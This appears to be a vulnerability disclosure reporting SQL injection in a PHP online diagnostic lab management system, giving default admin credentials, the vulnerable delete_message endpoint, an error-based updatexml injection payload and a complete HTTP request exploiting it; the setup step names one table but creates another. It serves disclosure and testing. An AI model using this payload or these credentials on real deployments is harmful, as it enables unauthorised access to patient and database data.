 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Hackerwang

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

You need to create a reservation_list table in the database first. The sql statement is as follows

```sql
CREATE TABLE `message_list` (
  `id` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

Vulnerability File: /odlms/classes/Master.php?f=delete_message

Vulnerability location: /odlms/classes/Master.php?f=delete_message,id

dbname=odlms_db,length=8

[+] Payload: id=4'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /odlms/classes/Master.php?f=delete_message HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/odlms/admin/?page=appointments
Content-Length: 66
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close

id=4'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191265343-657d36e4-2890-4248-9254-209a233797d8.png)
